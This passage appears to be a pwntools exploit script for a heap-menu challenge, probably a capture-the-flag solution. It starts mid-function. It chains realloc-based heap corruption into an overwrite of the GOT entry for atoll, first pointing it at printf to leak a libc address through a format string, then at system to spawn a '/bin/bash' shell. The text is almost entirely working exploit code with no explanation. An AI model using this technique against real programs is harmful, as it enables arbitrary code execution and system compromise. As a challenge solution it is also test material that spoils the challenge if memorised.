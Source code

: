 ```py
    p.sendlineafter(b"Index:", str(idx).encode())
    p.sendlineafter(b"Size:", str(size).encode())
    p.sendlineafter(b"Data:", data)

def realloc(idx, size, data=b""):
    p.sendlineafter(b"choice: ", b"2")
    p.sendlineafter(b"Index:", str(idx).encode())
    p.sendlineafter(b"Size:", str(size).encode())
    if p.recv(5) == b"alloc":
        return
    p.sendline(data)

def free(idx):
    p.sendlineafter(b"choice: ", b"3")
    p.sendlineafter(b"Index:", str(idx).encode())


alloc(0, 24)
realloc(0, 0)
realloc(0, 24, p64(exe.got["atoll"]))

alloc(1, 24) 
realloc(1, 40)
free(1)   

realloc(0, 56)
free(0)

#repeat
alloc(0, 56)
realloc(0, 0)
realloc(0, 56, p64(exe.got["atoll"]))
alloc(1, 56)  
realloc(1, 72)
free(1)
realloc(0, 88) 
free(0)
input()

alloc(0, 24, p64(exe.plt["printf"]))

##leak libc
p.sendlineafter(b"choice: ", b"1")
p.sendlineafter(b"Index:", b"%9$p")

p.recvuntil(b"0x")
leak = int(p.recvline().strip(),16)
libc.address = leak - 0x1e5760

log.info(f"libc puts - {hex(libc.sym.puts)}")

p.sendlineafter(b"choice: ", b"1")
p.sendlineafter(b"Index:", b"")
p.sendlineafter(b"Size:", b"%55d")
p.sendlineafter(b"Data:", p64(libc.sym.system))

p.sendlineafter(b"choice: ", b"1")
p.sendlineafter(b"Index:", b"/bin/bash;")

p.interactive()
```